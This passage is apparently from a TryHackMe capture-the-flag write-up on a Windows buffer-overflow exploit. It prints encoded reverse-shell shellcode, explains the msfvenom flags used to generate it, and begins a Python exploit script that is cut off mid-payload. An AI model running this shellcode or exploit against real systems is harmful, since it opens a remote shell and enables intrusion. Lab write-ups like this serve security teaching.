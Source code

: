 ```highlight
"\xfe\x0f\x11\x19\x76\xea\x20\x19\xec\x7f\x12\xa9\x66\x2d\x9f"
"\x42\x2a\xc5\x14\x26\xe3\xea\x9d\x8d\xd5\xc5\x1e\xbd\x26\x44"
"\x9d\xbc\x7a\xa6\x9c\x0e\x8f\xa7\xd9\x73\x62\xf5\xb2\xf8\xd1"
"\xe9\xb7\xb5\xe9\x82\x84\x58\x6a\x77\x5c\x5a\x5b\x26\xd6\x05"
"\x7b\xc9\x3b\x3e\x32\xd1\x58\x7b\x8c\x6a\xaa\xf7\x0f\xba\xe2"
"\xf8\xbc\x83\xca\x0a\xbc\xc4\xed\xf4\xcb\x3c\x0e\x88\xcb\xfb"
"\x6c\x56\x59\x1f\xd6\x1d\xf9\xfb\xe6\xf2\x9c\x88\xe5\xbf\xeb"
"\xd6\xe9\x3e\x3f\x6d\x15\xca\xbe\xa1\x9f\x88\xe4\x65\xfb\x4b"
"\x84\x3c\xa1\x3a\xb9\x5e\x0a\xe2\x1f\x15\xa7\xf7\x2d\x74\xa0"
"\x34\x1c\x86\x30\x53\x17\xf5\x02\xfc\x83\x91\x2e\x75\x0a\x66"
"\x50\xac\xea\xf8\xaf\x4f\x0b\xd1\x6b\x1b\x5b\x49\x5d\x24\x30"
"\x89\x62\xf1\x97\xd9\xcc\xaa\x57\x89\xac\x1a\x30\xc3\x22\x44"
"\x20\xec\xe8\xed\xcb\x17\x7b\xd2\xa4\x16\x3d\xba\xb6\x18\xd0"
"\x66\x3e\xfe\xb8\x86\x16\xa9\x54\x3e\x33\x21\xc4\xbf\xe9\x4c"
"\xc6\x34\x1e\xb1\x89\xbc\x6b\xa1\x7e\x4d\x26\x9b\x29\x52\x9c"
"\xb3\xb6\xc1\x7b\x43\xb0\xf9\xd3\x14\x95\xcc\x2d\xf0\x0b\x76"
"\x84\xe6\xd1\xee\xef\xa2\x0d\xd3\xee\x2b\xc3\x6f\xd5\x3b\x1d"
"\x6f\x51\x6f\xf1\x26\x0f\xd9\xb7\x90\xe1\xb3\x61\x4e\xa8\x53"
"\xf7\xbc\x6b\x25\xf8\xe8\x1d\xc9\x49\x45\x58\xf6\x66\x01\x6c"
"\x8f\x9a\xb1\x93\x5a\x1f\xd1\x71\x4e\x6a\x7a\x2c\x1b\xd7\xe7"
"\xcf\xf6\x14\x1e\x4c\xf2\xe4\xe5\x4c\x77\xe0\xa2\xca\x64\x98"
"\xbb\xbe\x8a\x0f\xbb\xea";
```

msfvenom allows for the reverse shell payload to be created which I can add to the script. 

- -p - Set the payload in this case I wanted a windows reverse shell
- LHOST - Set to the TryHackMe VPN IP
- LPORT - A port on my machine
- EXITFUNC - If applicable it ensures an applications remains stable when the shell is closed
- -f - Set the format of the output to c
- -e - Encoding type to shikata_ga_nai
- -a - Set architecture
- -b - provide a list of the bad characters I found earlier

The final exploit script is:

{% highlight python %}
#!/usr/bin/python3                                                                                                        
                                                                                                                          
import sys, socket                                                                                                        
from time import sleep                                                                                                    
                                                                                                                          
#badchars = /x00                                                                                                          
                                                                                                                          
#msfvenom -p windows/shell_reverse_tcp LHOST=VPN IP LPORT=4444 EXITFUNC=thread -f c -e x86/shikata_ga_nai -a x86 -b "\x00"
                                                                                                                          
payload = ("\xb8\x6b\x6e\x2b\xda\xda\xc8\xd9\x74\x24\xf4\x5a\x31\xc9\xb1"                                                
"\x52\x31\x42\x12\x03\x42\x12\x83\x81\x92\xc9\x2f\xa9\x83\x8c"                                                            
"\xd0\x51\x54\xf1\x59\xb4\x65\x31\x3d\xbd\xd6\x81\x35\x93\xda"                                                            
"\x6a\x1b\x07\x68\x1e\xb4\x28\xd9\x95\xe2\x07\xda\x86\xd7\x06"
"\x58\xd5\x0b\xe8\x61\x16\x5e\xe9\xa6\x4b\x93\xbb\x7f\x07\x06"
"\x2b\x0b\x5d\x9b\xc0\x47\x73\x9b\x35\x1f\x72\x8a\xe8\x2b\x2d"
"\x0c\x0b\xff\x45\x05\x13\x1c\x63\xdf\xa8\xd6\x1f\xde\x78\x27"
"\xdf\x4d\x45\x87\x12\x8f\x82\x20\xcd\xfa\xfa\x52\x70\xfd\x39"
"\x28\xae\x88\xd9\x8a\x25\x2a\x05\x2a\xe9\xad\xce\x20\x46\xb9"
"\x88\x24\x59\x6e\xa3\x51\xd2\x91\x63\xd0\xa0\xb5\xa7\xb8\x73"
"\xd7\xfe\x64\xd5\xe8\xe0\xc6\x8a\x4c\x6b\xea\xdf\xfc\x36\x63"
"\x13\xcd\xc8\x73\x3b\x46\xbb\x41\xe4\xfc\x53\xea\x6d\xdb\xa4"
"\x0d\x44\x9b\x3a\xf0\x67\xdc\x13\x37\x33\x8c\x0b\x9e\x3c\x47"
"\xcb\x1f\xe9\xc8\x9b\x8f\x42\xa9\x4b\x70\x33\x41\x81\x7f\x6c"
"\x71\xaa\x55\x05\x18\x51\x3e\x20\xd5\x4c\x67\x5c\xe7\x6e\x86"
"\xc1\x6e\x88\xc2\xe9\x26\x03\x7b\x93\x62\xdf\x1a\x5c\xb9\x9a"
"\x1d\xd6\x4e\x5b\xd3\x1f\x3a\x4f\x84\xef\x71\x2d\x03\xef\xaf"
"\x59\xcf\x62\x34\x99\x86\x9e\xe3\xce\xcf\x51\xfa\x9a\xfd\xc8"
"\x54\xb8\xff\x8d\x9f\x78\x24\x6e\x21\x81\xa9\xca\x05\x91\x77"